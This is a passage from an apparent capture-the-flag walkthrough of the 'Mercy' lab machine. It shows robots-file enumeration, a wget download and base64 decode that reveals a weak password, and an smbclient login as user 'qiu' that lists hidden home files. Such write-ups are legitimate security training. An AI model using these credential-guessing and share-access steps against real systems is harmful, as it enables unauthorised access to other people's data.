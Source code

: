 Then we check the robots file on the web page and find the following resource:

![](/assets/images/mercy/screenshot-2.png)

We request the resource **/tryharder/tryharder** and we find content encode in base64.

![](/assets/images/mercy/screenshot-3.png)

We download the base64 file and decode it, and I find a message where it especifies that one of the employes is using as password **password**. 

```console
root@kali:~$ wget http://192.168.179.132:8080/tryharder/tryharder
root@kali:~$ base64 -d tryharder 
It's annoying, but we repeat this over and over again: cyber hygiene is extremely important. Please stop setting silly passwords that will get cracked with any decent password list.

Once, we found the password "password", quite literally sticking on a post-it in front of an employee's desk! As silly as it may be, the employee pleaded for mercy when we threatened to fire her.

No fluffy bunnies for those who set insecure passwords and endanger the enterprise.
```

### Accessing the Samba Service

I try to access the samba service with the credentials **qiu:password** and we access this.

```console
root@kali:~$ smbclient //192.168.179.132/qiu -U 'qiu'
Enter WORKGROUP\qiu's password:

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Aug 31 14:07:00 2018
  ..                                  D        0  Mon Nov 19 11:59:09 2018
  .bashrc                             H     3637  Sun Aug 26 08:19:34 2018
  .public                            DH        0  Sun Aug 26 09:23:24 2018
  .bash_history                       H      163  Fri Aug 31 14:11:34 2018
  .cache                             DH        0  Fri Aug 31 13:22:05 2018
  .private                           DH        0  Sun Aug 26 11:35:34 2018
  .bash_logout                        H      220  Sun Aug 26 08:19:34 2018
  .profile                            H      675  Sun Aug 26 08:19:34 2018
```
